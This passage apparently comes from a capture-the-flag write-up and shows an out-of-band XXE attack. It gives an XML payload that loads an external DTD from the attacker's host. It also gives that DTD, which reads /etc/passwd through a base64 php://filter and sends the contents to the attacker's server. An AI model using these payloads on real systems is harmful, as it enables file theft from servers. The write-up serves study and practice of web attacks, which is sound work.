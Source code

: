 - And we have a hit

![](./images/9.png)

![](./images/8.png)

- Let's try exfil
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-attack-yunusov-2013
  - The payload that we will send
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://10.10.16.9/evil.dtd">
<data>&send;</data>
```

- The `.dtd` file we host on our server
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://10.10.16.9/?%file;'>">
%all;
```

- And we have a hit

![](./images/10.png)
